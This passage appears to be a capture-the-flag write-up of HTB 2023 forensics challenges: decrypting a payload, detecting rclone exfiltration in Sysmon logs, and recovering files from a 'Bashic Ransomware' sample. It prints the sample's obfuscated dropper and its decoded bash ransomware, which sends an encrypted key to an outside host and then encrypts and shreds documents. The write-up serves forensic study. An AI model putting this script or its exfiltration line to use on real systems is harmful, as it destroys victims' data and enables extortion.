NTfNxxYjVh8FhHxoa8kn/oPodlqeO2WA9d114+5MR4xSoPCLl4v4LMgoSXqJyRIQt1erT4F/pR5umE0bnuCAFD0wCJ9nOHjAaOmMjHx4DYqKSmlbU89MCU1jbbkL8n55tl62Tkpr7zKupuIX+gQrYjUs5R3nQBWPWfPZgS5yTtpQ0LGppPNrU3rDU37WoUVJQnAthXwu7wkNmwExhhUVviJWo2SLd5EtLC/AksmKt+TStlVAYq4y4jCCyogyhTOqc9lX3alkE1WCUX3uHybGc4qnw0IQdSEua3sfFd+eNSY+GMm8f5qu9plIsUo0XP/O7s2sHNxblkGSQf4XEADsiedID9OSkr7Gz702720PJkdWjtKj5Og2c234V6vjygzx9/FoeVDdwFTzL2y4xEgkjJeF7XT3Tg3SQooIw8K5VgB4lIBJPPGrcyIZ26t+jdheluc2olR2u790Z3khi9HrtUwmEt3BU1IZWMHegimI3S4c0zxGPEs/GgJ6tbIx/FukAfb4/TF/hI0JG1sGkXn1N8W6fTY2zR85VTCZkDhBj+7hsij+bNnCELVq9utMS87160NmSdIFy/56sEMSfLR3EuFVuBWN2bXVrjM7qw888B37Xh6DV1pApZHZNnU1zXNkQV8kZRSUfpvTcrN93tBOjmSex/ljz81uF0p94c50TbHsjqfFMk+Lz2d62MX6Hhe+YHtRgupGtvAlsEwuYI5JG5WFASI9yp6AGFpEKYnR+RenAdQ+Z5j4gMlZs0LgH2fbHXXAhIqLh6OhVF2H1Z071E2PNFmypT7v6gfMLGVdIHjXuEJj/jFIqvJ1T2q9F7/paM1ZILQK/QvzvPTB6ioCr3A+HOVCDAc5OfG26R0sUIi+asNcsrPU4/tJXSCYCDHzCabozWnCWq5HFwgKopnam3ZHuxS436xs4SZT3v1RvkoLkEZLlrUhwgXlI7PmpRUbnYHo1Fa25lcvM23QOf0oldx0jF8VVNSKWK98G52TK0h1Bpu+3LUfebuGDg/v6u34oEAnzbXVzYoNVuv4fcefd78WBtQbmqkYWpoq9lGc9oR+cMliEgMSCNhPH9kyaYv71/cD/EScRKnDkkoEZLnQ6lyU+mOJ3Or3PZj9reszg=')
cipher = AES.new(key, AES.MODE_CBC, iv)
decrypted_message = cipher.decrypt(encrypted_message)
decrypted_message = unpad(decrypted_message, 16)

decrypted_message = gzip.decompress(decrypted_message)

io = open('E:/Downloads/out', 'wb')
io.write(decrypted_message)
```

As a result, we get [this binary](https://drive.google.com/file/d/1RsyS6wtl-Dz1HM-0GPDnOYWSxnFMBGoi/view?usp=sharing).

I also double-checked using [Detect It Easy (DIE)](https://www.portablefreeware.com/index.php?id=2757) to see if it is a valid executable or not.


Voilà, we get the executable! I used [dnSpy](https://github.com/dnSpy/dnSpy) to read the code of the binary. Turned out, the flag is right there to be seen!



Flag is: **HTB{0neN0Te?_iT'5_4_tr4P!}**

## Packet Cyclone

* **Given file:** [Get it here!](https://drive.google.com/file/d/1hqRgWipQ_XvLOSa7fQDDVzZ37U3myRbq/view?usp=share_link)

* **Description:** Pandora’s friend and partner, Wade, is the one that leads the investigation into the relic’s location. Recently, he noticed some weird traffic coming from his host. That led him to believe that his host was compromised. After a quick investigation, his fear was confirmed. Pandora tries now to see if the attacker caused the suspicious traffic during the exfiltration phase. Pandora believes that the malicious actor used rclone to exfiltrate Wade’s research to the cloud. Using the tool called “chainsaw” and the sigma rules provided, can you detect the usage of rclone from the event logs produced by Sysmon? To get the flag, you need to start and connect to the docker service and answer all the questions correctly.

* **Note:** This challenge had a docker but it might be closed at the time you are reading this. All needed files will be given in the write-ups.

* **Category:** Forensics

* **Difficulty:** Easy

To get the flag, we need to answer these five question correctly:

**1.What is the email of the attacker used for the exfiltration process? (for example: name@email.com)**

In the file given, there are 2 YAML files. In these files there is a [link](https://research.nccgroup.com/2021/05/27/detecting-rclone-an-effective-tool-for-exfiltration/) which is about detecting `Rclone`. We can follow what they do to answer our questions.

To find the email, i opened `Sysmon Operational` event log and looked around the events. Then i found this:



This event will help us to answer first four questions.

**Answer:** `majmeret@protonmail.com`

**2. What is the password of the attacker used for the exfiltration process?**

**Answer:** `FBMeavdiaFZbWzpMqIVhJCGXZ5XXZI1qsU3EjhoKQw0rEoQqHyI`

**3. What is the Cloud storage provider used by the attacker?**

**Answer:** `mega`

**4. What is the ID of the process used by the attackers to configure their tool?**

**Answer:** `3820`

**5. What is the name of the folder the attacker exfiltrated; provide the full path.**

After reading the link mentioned above, we know that the attacker used command `.rclone.exe copy E: remote:data` to begin exfiltrated. Hence, I searched for the event that mentions `rclone.exe`.



**Answer:** `C:\Users\Wade\Desktop\Relic_location`

Flag is: **HTB{3v3n_3xtr4t3rr3str14l_B31nGs_us3_Rcl0n3_n0w4d4ys}**

## Bashic Ransomware

* **Given file:** [Get it here!](https://drive.google.com/file/d/1EY-quPUPyMjwMo_rJ5jApOcZIrMRnzSw/view?usp=share_link)

* **Description:** The aliens are gathering their best malware developers to stop Pandora from using the relic to her advantage. They relieved their ancient ransomware techniques hidden for years in ancient tombs of their ancestors. The developed ransomware has now infected Linux servers known to be used by Pandora. The ransom is the relic. If Pandora returns the relic, then her files will be decrypted. Can you help Pandora decrypt her files and save the relic?

* **Category:** Forensics

* **Difficulty:** Hard

We were given four files, including one encrypted flag file, a pcap file and a mem file with their `volatility profile` which is the zip file.

### 1. Pcap file
Looking at the pcap file, we can see a long `base64` string, i decoded it and get:

```powershell
gH4="Ed";kM0="xSz";c="ch";L="4";rQW="";fE1="lQ";s=" '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rFWesZlWLh3aNZUOH1ERS52QJhWVahlUWlVMadUZ0RWRX9kUwU1V1U1TXpVRhtEcupFdCFjUVVzVTtkRUVWekZUZDRWMZBHZxQFUCNTUGpkRiJHZFFGM0NVZtplRkNVODdlbWdVUVB3dTFzdHJWWsdVT0oURiNlVGZlNatGVrpUVUBzYsFmMjhkTTxGMhZjQE1UY0dlYzh3RhRTWUZlM4V0UYVzaZVFcrlFWkpnUIhnMiJHbtlVNjZUZoZUbUt0aGJ1MOhkV5dWMSBnRUdlcVh0VZlzUkNHctRWN4IDVvp0VTllWupVNnpHTXJlbTlkTrVFbGJjYZp0aURTTsNFN0JzSOxmRNlXVsJGeOZlUyUkbjBDasNUMsdkWyFkaTdnVtp1dB5WTYp1RahnUtlFbOVkU1xWbTdVOVZlSORlYrJVRlpkU65EWOhlTzIEWaZXMHJmcnd0TCh2aWpXQuFVVxs2YRZVRNRkVVJlRwdGVwQmRUVnWEFGeVRlWrZEVlhmVyklRkNDZ1kkbTNjVyoldoREZRxGMhRTVwolSopXU2hGWidlRzEWMOVkV0okMhplWVVlRk5WWoZEMWlkUysESstWYLNGRlVEasRmWCNDZhRmaOFTS6pld0IzY2YlRlhXU6xERCpWWxolVhNlQzEWaCpHZTlzQSNlTwMlQGBjWZxWVVJkVXNlUGVkUKRWbSZEbwQGRsBTYu50aDdFbxolQoBjWS5URUZFZYFVasBDZydGbjVzaxElVk1mVwpkRjJnSH10MKFDTxZVVRpEbrpVcGxGV0Jkek5kWqd1VGZVVKRWMaVkRwMlRkhlUGJleZJEcnNlMRtWWvVzaNlmTY5UNG1WYHRWVZJkRq1UawhlTYxmVlRjUVNVMZxWTUJFWPlXTXR2RxclVrZEbZJkRVJlUWVVU0AzVOFHZU5ESOdlYzU1aZJFbYV1SzVUTYlzahdnSVNmasxWV2RXbRhHOTNmQ1cVW6t2MMVlV6tUYkh0Vrp1VXFFdHRmevZVV4N3VNJTWHVmR5U1YyRmaUJEZERFeNFDVDpkaWBDaqN2Qat2Q4tmVkZXNrFlRoNDVMpkMUtmTuNlQKVVT0MmeTtmRsJlWS1mYNpEWXhXRsFmVxU1VaxWVT5WOD5ESCpnYGpVVSBVNF5ETsV0TUJFVTRzZE9ENVd0Tx82dNBzYU5kcJ5GZ5d3VihXVz0EdCRFZvJFSjZEaXRGcahkV2gmRi1mRwE2dZ1WUwJEWOpmSrNmM4UkT2p1VZ9EZIdVWONDZzIEWS9mRWNGMnRlVth3aNt0bI1EW0l3UrhWRkZXSuRWU41mVHljMMhmWGR1b01WU6h2ROVFZHNVbwJTVL5UbOZVODNmeWVUVHpFWZVjTVFlUsNjWPxGVjBDazYVMNVVZUx2MVlGbsNEeS1WVWhHMWlFeVJmQOhVYtx2VNdXUwQmd0ADTTZ0MjNHZV1EaGJjWzYFRONTT6RmWSh1VUZURa9kSqVlcFhVUpJEWaREbIVmesBTTuZkeZdFbFJGawFlTJh3aXVDbXNlVOxGVwUVVjpXSW10cONDZSx2aUVkT6ZldBRUYyg2VTJTREJFNvZ0YHZlVPtGdH1Uc1IDTVp1aSRDbYdVY0tmWZRGWZVkRw4EMjR1YLl1MOllTFNWNwdkWNlTeNlnTU50VwVUT0kjMLhkTWd1MnpWT6RWMWBlWrZVMFNTU2lEbiJDdH9Uc0lWYEhWRhRTRG5EdGVkTuxmVlBDa6tkMOR1UpZ1aDNDcyE1RkBjY5NHMN1EetJVWaBTVsZURPdXV6p1MsNjUIZEbR5kWwMWRshVY1JkbW5kRuFWYOpmV2YVVSpEbEJFWSVVUFpEMjZXRUlVUktWUPRWVVRHcnNEdwMFT0BTeTRUOFR1QCN1VGRXRJREbFR1QWZUVnFUMSFlQpRlSkVlUDFzUMRHMTxkI9oGZPl3MLdzb0UmV5pGb0lgC7BSKo0UW6RnYzR1Q2YkTYF0M3gHSNZUdKg2chJ2LulmYvEyI
' | r";HxJ="s";Hc2="";f="as";kcE="pas";cEf="ae";d="o";V9z="6";P8c="if";U=" -d";Jc="ef";N0q="";v="b";w="e";b="v |";Tx="Eds";xZp=""
x=$(eval "$Hc2$w$c$rQW$d$s$w$b$Hc2$v$xZp$f$w$V9z$rQW$L$U$xZp")
eval "$N0q$x$Hc2$rQW"
```

After using python to concat these strings, I got a `base64` string, decoded it and I got a bash script:

```bash
#!/bin/bash
uFMHx73AXNF6CTsbtzYM() {
	tljyVe4o7K3yOdj="LS0tLS1CRUdJTiBQR1AgUFVCTElDIEtFWSBCTE9DSy0tLS0tCgptUUdOQkdQYTEvc0JEQURXRDlJRUV6VjNaanFNVnBuaXlEc0ZNQlFHR3l3ZzUwOEFlU0ZYRmxMM0syb0dGQ2p3CkViSTN2Kzh0eVlnNEFtNFE4aEhDaitqOGt2blIvQ3E1VkZPV1dzMjg3WVNHK294MEpWNTNyMy9MZGp5cENYN3YKcTc0N0FEYXdYZktaWXl4RkZUL25qMGtkOVVGcFo4RDE2SWh2aDAvVzNETklRd3NsMVIzcUU0TlNVSWl5WkxINQphbElWYzFnM0lzeHlDZXBiQXErUjJOZEFTWXRZdzM3NDV3Z2FhMUdsc3FSL04vd0QwMWlmaXNBbUxYV0xVUmRxClliU3lTeUM1V3h0cTlOZ3lRQUN5YXZGUEVzcC9VNmNKU2pmSGdUNGhzQmtoTFZhL29GVmxQdnIvdEhkSytXMHoKMkxmVTg0cVFoRXB3d3NYWHdOYWZvNE82ckJjNXBpQmYwa0FmbFh6VHZpdWhFcHRodTBtM3UxbWwydnIrNTc0Mwo1OGU4ODg4STRTOElLNE5PRUZFbzBHNC9nSUlZWU1ValExWXJMbmRZRlFkSzc4MUJBSnNkT2JLT3hFQk5vdVkxCkZCcjh0VjJCT1MxTDdBTjdrcU9FeGY2MWsxUVozdGtQWWZkWHdaKzVUL3kzYW5BcS8xQmtvUlljcUJwak9XMEsKUXlRYkU3bWNHNTdqNW04QUVRRUFBYlFkVW1GdWMyOXRTMlY1SUR4eVlXNXpiMjFBYUdGamF5NXNiMk5oYkQ2SgpBYzRFRXdFS0FEZ1dJUVFWWjZNdzBtTlFqZklJQUVqL1J3MGJrcFJpVmdVQ1k5clgrd0liQXdVTENRZ0hBZ1lWCkNna0lDd0lFRmdJREFRSWVBUUlYZ0FBS0NSRC9SdzBia3BSaVZ1YjBDLzQxeFV6c24vZzI1Njdad3BZdlhEeDcKaklHK2RIV0FhYndFUUZZa2J4VEN1a3FWbXhvQzhJZ0U4a0lQdDhvZ2V3SnI5d3dFY2VheTFkZTUxaDZuTFd0TgpFRUVDMEVQck1UQnAzVkhBOGgrbG1vZXB3NXNXNzRJeERkbTNJVU9WSmluRENlYmRxZGZXMnAwZmVwSjArZGl1Clh0cnE2RVNxblUyMFlNK2t4SlM4TkJYb2FlUkNISnRWLzg5ZnZYSWJoT285dmpsdS9YWHUrWTFpR1gyVHN3RFkKTmFheFc5Ymlrb2xHRzdXYkpUYk5XSEx2VTY4aGxsbWtaMDB6a0lSNHc2alc0TUJkTkZ6VFVSbEJ4MWlYbGw1SwpUQWVnWC9SdFZmeSt0aEdrbFJFQ3BPT1dpY1dCeFdyeTFKSW5UR1BtZnpKaEZWOU5WU0ROWEdteGZ1YVRXZUhICnRDMG9FMkxKZVlyakRNV0xnR0VXTERMYlhDdURtZXo1M0dwSjN2MHlGckplNGkyZVI1Z0x1OG9UNWlaV0xDNnYKMzdQeVc3bXYyeHZQNGNlZExZdk1CMVZ1UlBuSW01T1U2UjJtelNHQS8zNnBKWHhYU3RjY01JamJ5dDNUbFNxbAordHJyQ2ZHUzNjMzRzVmgrN1RNUHRHZTdCbHR4ZjI5UzhMd1dudUt1R00rNUFZMEVZOXJYK3dFTUFLNW0vdm1TCmJTb3p0cXFzV1dpNTN1UFJ3UWxqejZHd0g5emhDbENzRW4xZk9QRktZc0JLcmpFQXpsRUZ2VTh3UGhiVm5EdFAKNERtRFp0Wk9UN3pxSjFseUdXUnliOEdjSnpHWXYvRDJVcnZaMVZCUHBoUlVNU2lQZUljNnk0ckI5Vkh5ZjVRNApwdmFub1hlWVkyYVd4S09zdUl2aUJDRkJWalE0Q0dqbUlBMkZOdWFwZEFnSFZJRHZmTU9nblorbnRFNVdhSWZlCjBCdzlMK05OaTloV04vODlnMG9BeDNDVksybVVPUUJ3Z3NBR1kvdFdjc3lGc3YwWlRBLzczRXg0U05VMXdtUG0KeDNheVVsTjhhRENPMlhaanBpMitLY0NOV2hpYmFKbWp5SkZzK3ZIbzJ6TlpDaExGQWtObmZzSHczdHdTU1ZNQQovck56UE0zU2xhb2QvK2dDY0xEUEh0Y0xpcGF3RXlHcWRtd0hBakpTaEt4eFJpaG1YbzVoRjc1bUF3ckNSL2g5Ck1zb0phOW5DMDF5NXBMemZ4c1ZZRzBneXhyamdLVEpGcElCWDJ5SmtPSHlDMndrWUg2aVZxbDExMnRmOHpNZ3gKYWFmQnFqenNMZWNzcXZzYzA5SHRnZnpWZVM1bXpUN2dLajMxeXNuNjZxMCtmOVBXREJ5RzF3aHVUUUFSQVFBQgppUUcyQkJnQkNnQWdGaUVFRldlak1OSmpVSTN5Q0FCSS8wY05HNUtVWWxZRkFtUGExL3NDR3d3QUNna1EvMGNOCkc1S1VZbFpBOUF3QXRNOTVITk5QcWVqR0RwZmhmSUhWdy9HZkhKaGRpeUQ2NXJxWE5XckZFdzVJYVpVeWl0WUMKUFVPbmE3bGtFSW05aEkyaVpKc04vWEVnMWw5TVhpRzBHTzRqTjhvT0ZybnNHb3NNbUNJS2p3eDR5US9oTndKNQpuM3Fvb1cvRlErQTRQNmkvZDJERGtZK2NEdDhpUm1LTUhLa3dZcU9VV0hob2wwT3JwT1lYUUIrTjdwSFg5dCtaCld0NjU5YkxpUzRlcGt6YzRDUm9OSHZhZnY0bFdKaGJtWnowSitFd0U2QlBoNWN4WDA3aUEwbDdobjBQSW1jZ0gKKzdUL0xlZWZseHNKeXpiUWlXakd0UC9Ia2ZpbGg5ZStjSjZWcjlsNSs5SEFHaVB1L0JWK05qcTdCb2Mwc0lUKwpLbGFkVzJoUFV1WnQyeSsxaWg3NUtrZGdWb3k0amhhMENsTE9aQ1ZtODhNTXRLWXJ0S2ttZUkrMUtJVFE1NWhGCmRuYWZtaWdxcjB5M0dVTVBseFRRVmR5ZElnRHNzSXhWdlptWG8rd3lNbE4vL0hTS1Q5ZnpwOHhQL1g5bjhZWDcKcmZ1SkdBd3JKbWVLVFdHRWhrOUdOLzk2RTV6N2JOS2RQcWI5WHN3enF4QjMvVTBPWGRHemNpK1h6VURVVVI5cwo3S2dCZ3VXY0xXYWUKPXFqVzcKLS0tLS1FTkQgUEdQIFBVQkxJQyBLRVkgQkxPQ0stLS0tLQ=="
	echo $tljyVe4o7K3yOdj | base64 --decode | gpg --import
	echo -e "5\ny\n" | gpg --command-fd 0 --edit-key "RansomKey" trust
}
MMYPE1MNIGuGPBmyCUo6() {
	DhQ52B6UugM1WcX=`strings /dev/urandom | grep -o '[[:alnum:]]' | head -n 16 | tr -d '\n'`
	echo $DhQ52B6UugM1WcX > RxgXlDqP0h3baha
	gpg --batch --yes -r "RansomKey" -o qgffrqdGlfhrdoE -e RxgXlDqP0h3baha 
	shred -u RxgXlDqP0h3baha
  	curl --request POST --data-binary "@qgffrqdGlfhrdoE" https://files.pypi-install.com/packages/recv.php
  	
	for i in *.txt *.doc *.docx *.pdf *.kdbx *.gz *.rar;
	do
		if [[ ${i} != *"*."* ]];then
	  		echo $DhQ52B6UugM1WcX | gpg --batch --yes -o "$i".a59ap --passphrase-fd 0 --symmetric --cipher-algo AES256 "$i" 2>/dev/null
	  		shred -u "$i" 2>/dev/null
	  	fi
	done
	unset DhQ52B6UugM1WcX
}
v0nPa1GinWR3Dr27cnmT() {
    # Just a function to print strings
}
ExoPFDWb3uT189e() {
	uFMHx73AXNF6CTsbtzYM
	MMYPE1MNIGuGPBmyCUo6
	v0nPa1GinWR3Dr27cnmT
}
if [[ "$(whoami)" == "developer7669633432" ]]; then
	if [ -x "$(command -v gpg)" ]; then
		ExoPFDWb3uT189e
		exit 1
	fi
fi
```
### 2. Bash script analyze

I used ChatGPT to analyze the script, it was much faster than if I analyzed it by myself. There are two functions that we need to notice, `uFMHx73AXNF6CTsbtzYM` and `MMYPE1MNIGuGPBmyCUo6`.

The `uFMHx73AXNF6CTsbtzYM` function decodes a `base64` string and imports as a key using `GPG`.

The `MMYPE1MNIGuGPBmyCUo6` function will generate a random string of `16` bytes consists of only alphabet and numbers. Then, it encrypts all files with `GPG` using the random string as the private key.

Now to find private key, we will immediately think of using `volatility3` to find the key in the mem file, as they are the only file that hasn't been used. However, in this writeup I will present to you an `unintended solution` as I didn't figure out to solve it using `vol3` in contest's time. 

My unintended solution was a famous trick in forensics, `grep`. I used GPT to generate a grep command to find a string of `16` bytes consists of only alphabet and numbers.



I try some sussy strings and found that the private key is `wJ5kENwyu8amx2RM`. Now we just need to decrypt the flag file and get the flag.

Flag is **HTB{n0_n33d_t0_r3turn_th3_r3l1c_1_gu3ss}**

## Original Posts:

- [From Onirique](https://junvalentine.github.io/posts/htb-wu-2023/)

- [From FazeCT](https://fazect.github.io/htb2023/)
